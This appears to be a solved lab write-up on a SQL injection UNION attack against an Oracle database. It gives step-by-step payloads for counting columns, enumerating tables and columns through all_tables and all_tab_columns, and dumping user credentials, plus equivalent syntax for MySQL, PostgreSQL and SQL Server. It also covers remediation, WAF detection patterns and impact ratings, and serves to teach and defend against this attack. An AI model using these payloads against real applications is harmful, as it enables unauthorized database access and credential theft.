

# SQL Injection UNION Attack: Listing Database Contents (Oracle)

## Lab Overview

**Level:** PRACTITIONER  
**Status:** ✅ Solved  
**Objective:** Perform a SQL injection UNION attack to enumerate Oracle database tables and columns, extract administrator credentials, and use them to authenticate.

## Vulnerability Details

The application contains a SQL injection vulnerability in the **product category filter**. The results from the query are reflected in the application's response, allowing an attacker to use a UNION-based attack to extract data from other tables and enumerate the database structure.

**Target:** Product category filter  
**Selected Category:** Pets  
**Goal:** Extract credentials and authenticate as administrator
**Database Type:** Oracle

## Solution Steps

### Step 1: Determine the Number of Columns

Using the `ORDER BY` technique to identify how many columns are returned by the original query.

**Payload:**
```sql
' ORDER BY 2--
```

**Result:** The query succeeds with 2 columns, confirming the original query returns exactly **2 columns**.



### Step 2: Confirm Text-Compatible Columns

Testing both columns to verify they can hold string data for the UNION SELECT.

**Payload:**
```sql
category=Pets' UNION SELECT 'abc','def' FROM dual--
```

**Result:** Both columns returned text successfully, confirming the UNION attack is possible. Both columns are **text-compatible**.

**Note:** Oracle requires the `FROM` clause, using the `dual` table as a dummy source.

### Step 3: Extract Table Names

Enumerating all tables in the database using the `all_tables` view (Oracle's system catalog).

**Payload:**
```sql
' UNION SELECT table_name,null FROM all_tables--
```

**Purpose:** List all accessible database tables to locate the users table

**Result:** Found multiple tables including the target: **`USERS_HKTWUJ`**


### Step 4: Extract Column Names

Querying the `all_tab_columns` view to identify column names within the target users table.

**Payload:**
```sql
' UNION SELECT column_name,null FROM all_tab_columns WHERE table_name='USERS_HKTWUJ'--
```

**Purpose:** Enumerate columns inside the `USERS_HKTWUJ` table

**Important:** Oracle stores table/column names in UPPERCASE in the data dictionary.

**Found Columns:**
- `USERNAME_SPGKBL`
- `PASSWORD_HQYBJT`


### Step 5: Extract Credentials

Dumping all usernames and passwords from the identified users table.

**Payload:**
```sql
' UNION SELECT USERNAME_SPGKBL,PASSWORD_HQYBJT FROM USERS_HKTWUJ--
```

**Result:** Successfully retrieved all user credentials including administrator credentials.


### Step 6: Authenticate

Using the extracted administrator credentials to log in and complete the lab.


## Lab Completion

✅ **Lab Status: SOLVED**

The lab is completed when:
- Successfully enumerate Oracle database tables using `all_tables`
- Identify the users table with randomized name
- Extract column names from the target table using `all_tab_columns`
- Dump all user credentials
- Authenticate as the administrator
- Gain unauthorized access to the application

## Key Concepts Learned

### 1. **Oracle Database Schema Enumeration**
Using Oracle's system catalogs to map the database structure:
- `all_tables` - Lists all accessible tables
- `all_tab_columns` - Lists all columns per table
- `dba_tables` - Lists all tables (if DBA privilege)
- `dba_tab_columns` - Lists all columns (if DBA privilege)

### 2. **Oracle-Specific Syntax**
Differences from other SQL databases:
- Requires `FROM dual` for dummy result sets
- Table/column names stored in UPPERCASE in the data dictionary
- Uses `||` for string concatenation
- Uses `all_tables` instead of `information_schema`

### 3. **Multi-Step Data Extraction**
Attack chain:
1. Determine column count
2. Verify data types (often need `FROM dual`)
3. Enumerate tables from `all_tables`
4. Enumerate columns from `all_tab_columns`
5. Extract sensitive data
6. Exploit extracted credentials

### 4. **Credential Harvesting**
- Once usernames and passwords are extracted, immediate authentication is possible
- Administrator accounts provide maximum privileges
- Leads to complete system compromise

## Attack Payloads Summary

| Step | Payload | Purpose |
|------|---------|---------|
| 1 | `' ORDER BY 2--` | Determine number of columns (result: 2) |
| 2 | `' UNION SELECT 'abc','def' FROM dual--` | Verify text column compatibility |
| 3 | `' UNION SELECT table_name,null FROM all_tables--` | Enumerate all tables |
| 4 | `' UNION SELECT column_name,null FROM all_tab_columns WHERE table_name='USERS_HKTWUJ'--` | Find column names in target table |
| 5 | `' UNION SELECT USERNAME_SPGKBL,PASSWORD_HQYBJT FROM USERS_HKTWUJ--` | Extract credentials |

## Extracted Data

```
Users Table: USERS_HKTWUJ
├─ USERNAME_SPGKBL | PASSWORD_HQYBJT
└─ ADMINISTRATOR : [PASSWORD] ✓ (Used to complete lab)
```

## Security Implications

1. **Schema Enumeration** - Database structure completely exposed
2. **Credential Exposure** - All user passwords accessible
3. **Administrative Compromise** - Admin account stolen
4. **Complete System Takeover** - Attacker gains full control
5. **Confidentiality Breach** - All sensitive data compromised
6. **Data Integrity Risk** - Attacker can modify data as admin
7. **No Protection from Obscurity** - Randomized table names provide no security

## Database Differences: Oracle vs Non-Oracle

### Oracle Databases
```sql
-- Requires FROM clause
' UNION SELECT 'test','value' FROM dual--

-- List tables
SELECT table_name FROM all_tables

-- List columns (must use UPPERCASE for table name)
SELECT column_name FROM all_tab_columns 
WHERE table_name='TABLENAME'

-- String concatenation uses ||
SELECT username || ':' || password FROM users
```

### MySQL/PostgreSQL/MariaDB
```sql
-- No FROM clause needed
' UNION SELECT 'test','value'--

-- List tables
SELECT table_name FROM information_schema.tables

-- List columns (can use lowercase)
SELECT column_name FROM information_schema.columns 
WHERE table_name='tablename'

-- String concatenation (MySQL uses CONCAT)
SELECT CONCAT(username,':',password) FROM users
```

### SQL Server
```sql
-- No FROM clause needed
' UNION SELECT 'test','value'--

-- List tables
SELECT TABLE_NAME FROM INFORMATION_SCHEMA.TABLES

-- List columns
SELECT COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS 
WHERE TABLE_NAME='tablename'

-- String concatenation uses +
SELECT username + ':' + password FROM users
```

## Remediation

1. **Use Parameterized Queries/Prepared Statements**
   - Separate SQL code from user input
   - Completely prevents SQL injection
   - Example (Oracle): Use bind variables (`:param`)

2. **Input Validation & Sanitization**
   - Whitelist allowed characters
   - Reject special SQL characters
   - Validate data types and lengths

3. **Principle of Least Privilege**
   - Create application-specific database accounts
   - Grant only necessary SELECT/INSERT/UPDATE permissions
   - Restrict access to system catalogs (`all_tables`, `all_tab_columns`)
   - Disable DBA-level access for application accounts

4. **Error Handling**
   - Don't expose database error messages to users
   - Log errors server-side for debugging
   - Return generic error responses to clients

5. **Web Application Firewall (WAF)**
   - Detect UNION SELECT patterns
   - Block `all_tables` and `all_tab_columns` queries
   - Monitor for suspicious database queries
   - Block comments (`--`, `/**/`)

6. **Secure Password Storage**
   - Hash passwords with strong algorithms (bcrypt, Argon2, PBKDF2)
   - Use salt and iterations
   - Never store plaintext passwords
   - Use Oracle's password hashing functions

7. **Database Hardening**
   - Disable unnecessary system privileges
   - Remove default user accounts
   - Restrict database listener access
   - Enable database auditing

8. **Network Security**
   - Restrict database port access (1521 for Oracle)
   - Use encrypted connections (SSL/TLS)
   - Implement network segmentation

## Impact Rating

**Severity: CRITICAL** 🔴

- **Confidentiality:** COMPLETELY COMPROMISED (full database schema and credentials exposed)
- **Integrity:** HIGH RISK (attacker can modify any data as admin)
- **Availability:** HIGH RISK (attacker can delete databases or disable services)
- **CVSS Score:** 9.9 (Critical)
- **Attack Complexity:** LOW (straightforward enumeration)
- **Privileges Required:** NONE (unauthenticated attack)
- **User Interaction:** NONE (fully automated)
- **Impact Scope:** CHANGED (can affect other systems)

## Lessons Learned

1. Oracle's system catalogs (`all_tables`, `all_tab_columns`) are accessible to regular users
2. Randomized table and column names provide **zero security** against SQL injection
3. Uppercase naming in Oracle's data dictionary is critical to exploitation
4. SQL injection in Oracle allows complete database enumeration
5. The `FROM dual` syntax is mandatory for Oracle UNION attacks
6. Enumeration + credential extraction = complete system compromise
7. Defense-in-depth is critical: parameterized queries + input validation + proper database permissions
8. Oracle-specific injection techniques differ from other databases

## Oracle-Specific Security Notes

- Oracle's `all_tables` and `all_tab_columns` views are accessible by default to any connected user
- The data dictionary is case-sensitive when querying (uppercase required)
- Database links and remote objects can also be enumerated
- Stored procedures and functions are exposed via `all_procedures` and `all_arguments`
- Views on data dictionary should be restricted through database roles and privileges

## Remediation Checklist

- [ ] Convert all dynamic queries to parameterized statements with bind variables
- [ ] Implement comprehensive input validation and output encoding
- [ ] Configure database least privilege access (use non-admin app accounts)
- [ ] Restrict access to `all_tables` and `all_tab_columns` for app accounts
- [ ] Enable and review database audit logs
- [ ] Deploy WAF rules for SQL injection patterns
- [ ] Implement secure password hashing with salt
- [ ] Conduct code review for all database interactions
- [ ] Perform security testing on all user inputs
- [ ] Harden Oracle database configuration
- [ ] Train developers on secure coding practices and Oracle-specific vulnerabilities
- [ ] Set up database monitoring and alerting for suspicious queries
